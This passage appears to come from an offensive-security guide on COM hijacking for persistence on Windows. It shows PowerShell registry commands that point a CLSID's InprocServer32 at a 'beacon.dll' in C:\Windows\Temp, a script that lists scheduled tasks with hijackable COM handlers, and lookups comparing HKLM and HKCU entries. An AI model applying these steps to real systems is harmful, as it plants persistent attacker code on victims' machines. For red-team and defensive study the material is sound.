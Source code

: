 ```
New-Iten -Path "HKCU:Software\Classes\WOW6432Node\CLSID" -Name "{4590F811-1D3A-11D0-891F-00AA004B2E24}"
New-Item -Path "HKCU:Software\Classes\WOW6432Node\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}" -Name "InprocServer32" -Value "C:\Windows\Temp\beacon.dll"
New-ItemProperty -Path "HKCU:Software\Classes\WOW6432Node\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```

### Hijackeable COM components in Task Scheduler

Task Scheduler is another great place to look for hijackeble COM components. We can use the following script of powershell to find compatible tasks.

```powershell
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
  if ($Task.Actions.ClassId -ne $null)
  {
    if ($Task.Triggers.Enabled -eq $true)
    {
      if ($Task.Principal.GroupId -eq "Users")
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
    }
  }
}
```

We can lookup the current implementation of a component in `HKEY_CLASSES_ROOT\CLSID`.

```
PS C:\> Get-ChildItem -Path "Registry::HKCR\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCAAA}"

Name           Property
----           --------
InprocServer32 (default)      : C:\Windows\system32\MsCtfMonitor.dll
               ThreadingModel : Both
```

And we can check if the `InprocServer32` is currently implemented in `HKLM` and not in `HKCU`.

```
PS C:\> Get-Item -Path "HKLM:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCAAA}" | ft -AutoSize

Name                                   Property
----                                   --------
{01575CFE-9A55-4003-A5E1-F38D1EBDCAAA} (default) : MsCtfMonitor task handler


PS C:\> Get-Item -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCAAA}"
Get-Item : Cannot find path 'HKCU:\Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCAAA}' because it does not exist.
```
